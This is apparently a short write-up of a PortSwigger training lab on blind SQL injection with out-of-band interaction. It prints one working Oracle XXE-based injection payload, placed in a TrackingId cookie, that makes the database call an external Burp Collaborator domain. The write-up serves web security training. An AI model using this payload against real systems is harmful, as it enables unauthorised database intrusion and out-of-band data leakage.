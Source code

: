 
### Blind SQL injection with out-of-band interaction : PRACTITIONER

---

> Since the application executes the SQL asynchronously and has no effect on the application response, we can try and trigger and out of band network interaction.

> Capturing a `GET` request using BURPSUITE PROXY HTTP history, we see the `TrackingId` cookie that is vulnerable.

![](./screenshots/lab17-1.png)

>  Opening the [SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) and trying the different out of band payloads and placing them in the `TrackingId` cookie with the burp collaborator domain.
```
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://oa2ta7v39e81tpe1t3gofuf07rdi19py.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```
> Should be URL encoded, and uses the `http://` protocol.

> Opening collaborator and polling we see the following DNS requests, confirming that we executed SQL statements.

![](./screenshots/lab17-2.png)

---
